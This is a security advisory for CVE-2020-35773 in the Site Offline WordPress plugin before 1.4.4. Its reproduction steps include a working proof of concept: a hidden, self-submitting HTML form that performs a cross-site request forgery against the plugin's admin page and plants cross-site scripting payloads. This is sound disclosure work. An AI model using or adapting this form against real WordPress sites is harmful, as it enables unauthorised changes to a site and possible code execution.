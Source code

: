 ```yaml
---
title: RCE via site-offline wordpress plugin
date: 2020-12-23
tags:
	- "wordpress"
	- "rce"
	- "csrf"
	- "xss"
	- "webshell"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4292/
cves:
	- "CVE-2020-35773"
---
```

## Summary
The site-offline WordPress plugin before version 1.4.4 was vulnerable to Cross-site Request Forgery (CSRF) and Cross-Site Scripting (XSS) attacks.

## Product
Site-offline wordpress plugin before version 1.4.4

## Impact
Subject to WordPress and server configurations, successful exploitation of the Cross-Site Scripting vulnerability may lead to remote code execution.

## Steps to reproduce
1. Setup a WordPress website with the Site Offline plugin installed and activated.
2. Admin visits the page 
```
<html><head></head>
<body>
<form style="opacity: 0;" action="http://local-wp/wp-admin/admin.php?page=sahu_site_offline_wp" method="POST">
<input type="text" name="action_dashboard" value="sahu_sop_dashboard"/>
<input type="number" name="sahu_so_status" value='1' />
<input type="text" name="so_headline" value="" onfocus='alert(1)'" />
<input type="text" name="so_description" value="<img src=x onerror=alert(1)>" />
<input type="number" name="display_logo" value='0' />
<input type="text" name="so_logo_ur" value="">
<button>submit</button>
</form>
<script>document.querySelector('form').submit();</script>
</body></html>
```

### Expected result:
An alert should be shown on the target WordPress admin panel.

## Remediation
Update Site-offline plugin to 1.4.4 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Changeset](https://plugins.trac.wordpress.org/changeset/2445009/)
2. [Site Offline WordPress Plugin](https://wordpress.org/plugins/site-offline/)

